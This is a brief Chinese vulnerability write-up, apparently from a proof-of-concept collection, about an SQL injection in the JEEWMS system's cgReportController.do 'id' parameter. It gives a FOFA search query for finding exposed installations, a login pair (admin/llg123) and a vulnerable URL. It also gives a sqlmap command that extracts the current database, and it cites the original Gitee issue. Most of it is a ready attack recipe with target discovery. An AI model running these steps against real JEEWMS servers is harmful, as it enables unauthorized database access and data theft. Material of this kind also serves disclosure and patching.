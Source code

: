# JEEWMS系统cgReportController.do存在SQL注入漏洞

JEEWMS系统cgReportController.do存在SQL注入漏洞

## fofa

```javascript
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"
```

## poc

1. 构建 POC，登录后端捕获数据包，并替换 cookie

```javascript
admin/llg123
http://localhost:8083/jeewms/cgReportController.do?list&id=1
```

1. 使用 SQLMAP 重现和构造执行语句

```javascript
 python sqlmap.py -u "http://localhost:8083/jeewms/cgReportController.do?list&id=1" --cookie="XXXXX" -p id --current-db
```

![输入图片说明](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502211356436.png)



## 漏洞来源

- [JEEWMS-cgReportController.do？List&ID 存在 SQL 注入漏洞 ·问题 #IBFTVK ·JeeWMS/JeeWMS - Gitee.com](https://gitee.com/erzhongxmu/JEEWMS/issues/IBFTVK)
